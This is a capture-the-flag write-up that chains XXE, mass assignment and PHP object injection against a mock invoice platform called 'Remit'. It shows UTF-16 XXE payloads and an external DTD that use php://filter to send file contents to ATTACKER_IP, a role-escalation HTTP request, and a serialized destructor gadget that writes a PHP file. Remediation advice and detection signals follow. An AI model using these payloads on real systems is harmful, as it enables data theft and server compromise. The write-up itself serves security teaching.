



# Remit: From Supplier Invoice to Finance Console

<div align="center">

```text
┌──────────────────────────────────────────────────────────────────────┐
│                         WEBVERSE PRO                                │
│                                                                      │
│          REMIT — SUPPLIER → REVIEWER → CODE EXECUTION               │
│                                                                      │
│                         FIRST BLOOD                                  │
└──────────────────────────────────────────────────────────────────────┘
```

**A self-contained technical walkthrough of an XLSX/UBL parser flaw, source disclosure, broken role authorization, PHP object injection, and the path to the flag.**

| Target | Starting access | Result |
|---|---|---|
| `Remit` | Plain supplier account | Review-console access and command execution |
| Platform | Webverse Pro | **First Blood** |
| Flag | Captured | `WEBVERSE{00xml_bl1nd_**********************_1nj3ct}` |

</div>

> [!IMPORTANT]
> This walkthrough documents an authorized CTF environment. The account details, live session identifiers, and reusable credentials have been intentionally omitted.

---

## The Story

Remit presents itself as an accounts-payable platform. Suppliers upload invoice workbooks, finance staff review those invoices in a separate console, and approved payments move through the queue.

The briefing contained a valuable clue: an outsider had changed bank details on a live invoice, yet the finance team could not explain how anyone without a console account had entered the review environment.

That suggested two connected questions:

1. **Can supplier-controlled invoice data cross a server-side trust boundary?**
2. **Can a supplier become—or impersonate—a finance reviewer?**

The final chain answered both.

---

## Attack Chain at a Glance


### Vulnerability chain

| Stage | Weakness | Security impact |
|---:|---|---|
| 1 | Hidden virtual host | Exposed the separate finance console |
| 2 | Raw-byte XML blacklist | UTF-16 bypassed the `DOCTYPE`/`ENTITY` check |
| 3 | External entity expansion | Blind XXE and arbitrary local-file reads |
| 4 | PHP stream wrappers | Base64 and compressed source exfiltration |
| 5 | Mass assignment | Supplier self-promotion to reviewer |
| 6 | Unsafe `unserialize()` | Attacker-controlled PHP object creation |
| 7 | Destructor file-write gadget | Arbitrary file write in the review container |
| 8 | Executable webroot write | Command execution and flag retrieval |

---

## 1. Surface Discovery

Initial reconnaissance found only one exposed service:

```text
80/tcp  open  http  nginx
```

Requests to the IP redirected to:

```text
http://remit.local/
```

The public application exposed registration, login, a supplier portal, and an invoice workflow. Virtual-host discovery then revealed the separate finance application:

```text
review.remit.local
```

The review host presented a dedicated staff login and protected `/queue` behind authentication.



The supplier session did not work directly on the review host, and the supplier credentials were initially rejected there. The boundary was real—but the two applications shared data and code.

---

## 2. The Invoice Format Was the First Major Clue

The documentation explained that Remit accepted `.xlsx` workbooks containing a machine-readable UBL invoice at:

```text
remit/ubl.xml
```

It also stated that remote PEPPOL schema references were resolved during validation.

A benign workbook established the expected structure:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Invoice xmlns="urn:oasis:names:specification:ubl:schema:xsd:Invoice-2">
  <ID>CTF-BASELINE-001</ID>
  <IssueDate>2026-07-14</IssueDate>
  <LegalMonetaryTotal>
    <PayableAmount currencyID="USD">1.00</PayableAmount>
  </LegalMonetaryTotal>
</Invoice>
```

The server accepted the workbook, extracted the invoice number and amount, and placed it into the review queue.

---

## 3. The XML Blacklist—and the Encoding Gap

A direct external-entity payload was rejected with:

```text
Rejected: remit/ubl.xml contains unsupported XML declarations.
```

Source disclosure later confirmed the check:

```php
elseif (preg_match('/<!DOCTYPE|<!ENTITY/i', $xml)) {
    $err = 'Rejected: remit/ubl.xml contains unsupported XML declarations.';
}
```

At first glance, this appears to block XXE. It does not.

The regular expression examines the **raw uploaded bytes**. Encoding the document as UTF-16 inserts null bytes between the visible ASCII characters, so the byte sequence no longer matches the blacklist. The XML parser still recognizes the document because it honors the BOM and encoding declaration.

```xml
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE Invoice [
  <!ENTITY canary SYSTEM "http://ATTACKER_IP:8000/canary.txt">
]>
<Invoice xmlns="urn:oasis:names:specification:ubl:schema:xsd:Invoice-2">
  <ID>&canary;</ID>
  <LegalMonetaryTotal>
    <PayableAmount currencyID="USD">1.05</PayableAmount>
  </LegalMonetaryTotal>
</Invoice>
```

The callback arrived, and the content returned by the external entity became the invoice number. That proved:

- the blacklist was bypassed;
- external DTD loading was enabled;
- entity substitution was enabled;
- outbound HTTP requests were possible; and
- local/remote entity data influenced a database field.

The vulnerable parser configuration was later recovered from source:

```php
$doc->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
```

`LIBXML_NOENT` substitutes entities, while `LIBXML_DTDLOAD` allows external DTD retrieval. Together, they created the core XXE primitive.

---

## 4. Turning Blind XXE into Source Disclosure

The invoice number was limited to 64 characters, so directly placing large file contents into `<ID>` caused truncation. An external DTD solved that limitation by sending the data out-of-band.

### External DTD concept

```dtd
<!ENTITY % data SYSTEM
  "php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php">
<!ENTITY % stage "
  <!ENTITY leak SYSTEM 'http://ATTACKER_IP:8000/leak?d=%data;'>
">
%stage;
```

The UBL document loaded the external DTD and referenced the generated entity:

```xml
<!DOCTYPE Invoice [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/exfil.dtd">
  %remote;
]>
```

For larger files, compression reduced the callback URL length:

```text
php://filter/zlib.deflate/convert.base64-encode/resource=/path/to/file
```

The callback data could then be decoded locally:

```python
raw = base64.b64decode(value)
source = zlib.decompress(raw, -15)
```

### High-value files recovered

```text
/proc/self/cwd/index.php
/proc/self/cwd/inc/config.php
/proc/self/cwd/inc/auth.php
/proc/self/cwd/inc/pages/upload.php
/proc/self/cwd/inc/pages/account.php
/opt/remit/lib/Report/Archive.php
```

This moved the engagement from guesswork to code-assisted exploitation.

---

## 5. The Authorization Bug Hidden in the Profile Form

The public profile form showed only a display name and company. The backend told a different story.

Recovered source from `inc/pages/account.php` showed:

```php
$ALLOWED = ['full_name', 'company', 'role'];
```

The handler iterated over every posted field and updated any field present in the allowlist:

```php
foreach ($_POST as $k => $v) {
    if (in_array($k, $ALLOWED, true)) {
        $sets[] = "$k = ?";
        $vals[] = is_string($v) ? $v : '';
    }
}
```

A source comment revealed the exact internal role value:

```text
remit_reviewer
```

The browser never exposed a role field, but server-side authorization did not prevent a supplier from submitting one.

### Privilege change

```http
POST /account HTTP/1.1
Host: remit.local
Content-Type: application/x-www-form-urlencoded

full_name=Supplier&company=Supplier+Co&role=remit_reviewer
```

After updating the role, the same user account successfully authenticated to:

```text
http://review.remit.local/queue
```

The finance console now identified the account as a reviewer.



This was the direct path from supplier access to the finance console.

---

## 6. The Cookie That Became an Object

The queue supported status and sorting preferences. Changing those options caused the server to set a cookie resembling:

```text
remit_view=<base64-data>
```

Decoding it revealed native PHP serialization:

```php
array(
    'status' => 'all',
    'sort'   => 'newest'
)
```

The application trusted the client to return this serialized value and passed it to `unserialize()` without restricting classes.

That mattered because source disclosure had already revealed a shared class:

```php
namespace Remit\Report;

class Archive
{
    public $path;
    public $body;

    public function __destruct()
    {
        if (!empty($this->path) && $this->body !== null) {
            @file_put_contents($this->path, $this->body);
        }
    }
}
```

An attacker-controlled serialized `Remit\Report\Archive` object therefore provided two critical properties:

- `$path` — the destination file;
- `$body` — the contents written when the object was destroyed.

### Serialized-object concept

```text
O:20:"Remit\Report\Archive":2:{
  s:4:"path";s:20:"/proc/self/cwd/p.php";
  s:4:"body";s:<LEN>:"<?php ... ?>";
}
```

The object was serialized, base64-encoded, URL-encoded, and supplied as the `remit_view` cookie. At request teardown, the destructor wrote the chosen content into the review application’s webroot.

A request to the resulting endpoint confirmed command execution:

```text
uid=1201(avery) gid=1201(avery) groups=1201(avery)
```

---

## 7. Flag Capture

A bounded search of the review container’s environment and application paths returned:

```text
WEBVERSE{00xml_bl1nd_**********************_1nj3ct}
```

<div align="center">

```text
╔══════════════════════════════════════════════════════════════╗
║ FIRST BLOOD                                                  ║
║                                                              ║
║ WEBVERSE{00xml_bl1nd_**********************_1nj3ct}          ║
╚══════════════════════════════════════════════════════════════╝
```

</div>

The temporary command endpoint was removed after proof was collected, and a follow-up request returned `404`.

---

## What Did Not Work

A good writeup should include the branches that were eliminated, not only the winning path.

| Test | Result | Lesson |
|---|---|---|
| Supplier session replay on review host | Rejected | Sessions were host/application scoped |
| Supplier credentials before role change | Rejected | The console enforced a reviewer role |
| Basic SQL injection at review login | Negative | Authentication bypass was not SQLi |
| `role=reviewer` | Rejected by console | Exact internal role value mattered |
| Registration-time role injection | Ineffective | The vulnerable write path was `/account` |
| Plain UTF-8 `DOCTYPE` | Blocked | The blacklist saw the declaration |
| Remote `phar://http://...` archive | Unsupported | PHAR required a local path |
| Common flag paths in supplier container | Empty | The flag lived in the review environment |

The most important pivot was moving from speculative payloads to source-assisted reasoning once XXE file reads were confirmed.

---

## Root Causes

### 1. Parser safety was replaced with a blacklist

The application searched raw bytes for two strings but enabled dangerous parser features. Encoding changed the bytes without changing the XML semantics.

### 2. Authorization trusted the form instead of the user’s role

The UI hid the `role` property, but the server accepted it. Hidden fields are not access controls.

### 3. Client-controlled PHP serialization crossed a trust boundary

The application accepted serialized state from a cookie and allowed arbitrary class instantiation.

### 4. A destructor performed an unrestricted file write

The `Archive` class wrote attacker-controlled content to an attacker-controlled path during object destruction.

### 5. Multiple applications shared identities and dangerous code

The supplier and finance applications shared the user table and report library. A supplier-side disclosure exposed the exact reviewer role and a gadget usable in the finance application.

---

## Remediation Blueprint

### Secure XML parsing

- Remove `LIBXML_NOENT` and `LIBXML_DTDLOAD` for untrusted documents.
- Reject DTDs through parser configuration—not string matching.
- Use `LIBXML_NONET` where applicable.
- Validate UBL against locally pinned, trusted schemas.
- Do not resolve attacker-selected remote schemas.
- Normalize encoding before policy checks if inspection remains necessary.

A safe direction is:

```php
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NONET);
```

The exact parser configuration should be tested against the deployed libxml/PHP versions.

### Enforce role authorization

- Remove `role` from supplier-controlled update fields.
- Assign staff roles only through a dedicated administrative workflow.
- Re-check authorization server-side on every sensitive operation.
- Use separate request DTOs for supplier profile updates and staff onboarding.

```php
$ALLOWED = ['full_name', 'company'];
```

### Eliminate unsafe deserialization

- Replace serialized cookies with JSON containing primitive values only.
- Store preferences server-side and send an opaque identifier.
- If client-side state is required, sign it and validate a strict schema.
- Never call `unserialize()` on untrusted input.
- As a temporary defense, use `allowed_classes => false`.

```php
$value = unserialize($raw, ['allowed_classes' => false]);
```

### Remove the file-write gadget

- Avoid filesystem side effects in destructors.
- Use an explicit `save()` operation.
- Write only beneath a fixed, non-executable report directory.
- Generate server-side filenames.
- Reject wrappers, traversal, and paths outside the intended directory.

### Reduce blast radius

- Separate supplier and reviewer identities or enforce strict role boundaries.
- Avoid sharing unnecessary libraries across trust zones.
- Run review services with read-only application filesystems.
- Keep upload workers isolated from internal consoles and secrets.
- Set session cookies with `HttpOnly`, `Secure`, and appropriate `SameSite` attributes.

---

## Detection Opportunities

Defenders could detect this chain at several points:

1. XLSX uploads containing UTF-16 XML and DTD declarations.
2. Outbound requests from invoice workers to unapproved destinations.
3. `php://filter` strings in XML system identifiers.
4. Supplier accounts changing the `role` column.
5. Supplier identities authenticating to the finance console.
6. `remit_view` cookies decoding to PHP objects instead of arrays.
7. New `.php` files appearing in the review webroot.
8. Web-server child processes spawning shell commands.



---

## Lessons Learned

- **Inspect implementations, not only interfaces.** The profile page hid `role`; the backend accepted it.
- **Encoding is part of the attack surface.** A byte blacklist cannot safely reason about a format with multiple valid encodings.
- **Blind XXE becomes much stronger with stream wrappers.** Base64 and deflate transformed a small callback channel into reliable source disclosure.
- **Source comments can become exploit documentation.** The leaked code revealed both the exact reviewer role and the dangerous report class.
- **Serialized client state is code-adjacent input.** Once object creation is attacker-controlled, magic methods become an execution surface.
- **Validate every hop in a chain.** Callback proof, decoded source, successful role change, console access, file-write proof, and command output were each confirmed independently.
- **Clean up after proof.** The temporary endpoint was removed immediately after retrieving the flag.

---

## Final Chain

```text
Supplier registration
  → authenticated XLSX upload
  → UTF-16 bypass of raw-byte XML blacklist
  → external entity expansion
  → blind XXE with php://filter
  → source disclosure
  → discover role mass assignment
  → set role=remit_reviewer
  → authenticate to review.remit.local
  → decode serialized remit_view cookie
  → instantiate Remit\Report\Archive
  → destructor-based arbitrary file write
  → command execution as avery
  → capture WEBVERSE flag
  → First Blood
```

---

<div align="center">

**Remit was not broken by one spectacular bug. It was broken by several trust decisions that aligned perfectly.**

`Parser trust` + `property trust` + `serialized-object trust` = **complete compromise**

</div>
